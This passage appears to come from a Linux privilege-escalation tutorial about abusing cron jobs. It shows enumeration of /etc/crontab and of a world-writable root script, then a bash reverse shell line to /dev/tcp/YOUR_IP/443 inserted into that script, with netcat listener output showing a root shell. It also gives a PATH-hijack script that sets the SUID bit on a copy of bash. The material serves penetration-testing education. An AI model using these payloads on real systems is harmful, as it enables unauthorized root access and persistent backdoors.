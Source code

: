 View the contents of the system-wide crontab:

```
$ cat /etc/crontab
...
* * * * * root script.sh
* * * * * root /usr/local/bin/script.sh
```

Find the script on the server:

```
$ locate script.sh
/usr/local/bin/script.sh
```

Enumerate the file’s permissions:

```
$ ls -l /usr/local/bin/script.sh
-rwxr--rw- 1 root john 40 May 15 2021 /usr/local/bin/script.sh
```

> Note that the file is world writable.

Add a reverse shell code in the script with the following:

```bash
#!/bin/bash

bash -i >& /dev/tcp/YOUR_IP/443 0>&1
```

Set up a listener in your host (e.g Kali or Parrot) and wait for the cron job to run. A reverse shell running as the root user should be received as soon as the script is executed by the cron:

```
# nc –nvlp 443
Listening on [any] 443 ...
Connect to [192.168.10.10] from (UNKNOWN) [192.168.10.11] 47555
bash: no job control in this shell
root@victim:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

### Crontab PATH Environment Variable

If a cron job program/script does **not use an absolute path**, and one of the PATH directories is **writable** by our user, we may be able to create a script with the same name as the cron job.

One way we can take exploit this is by doing a SUID bit on bash:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

